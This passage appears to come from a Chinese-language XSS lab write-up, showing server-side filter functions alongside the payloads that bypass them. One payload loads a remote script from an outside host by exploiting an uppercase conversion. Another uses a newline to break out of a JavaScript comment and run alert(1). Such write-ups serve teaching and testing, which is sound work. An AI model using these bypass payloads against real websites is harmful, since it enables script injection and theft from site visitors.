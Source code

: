 ```
[html]
<h1><SCRIPT SRC="HTTP://SQLILABS.NJHACK.XYZ/A.JS"></SCRIPT></h1>

[server code]
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}

```





## 0x0D——换行绕过并注释掉尾巴-替换`/'"`并注释输入内容的过滤

```
xx
alert(1)
-->
```

![image-20220116115124464](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115124464.png)

```
[html]
script>
          // alert('xx
alert(1)
-->')
    </script>

[server code]
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
过滤< " ' /
```
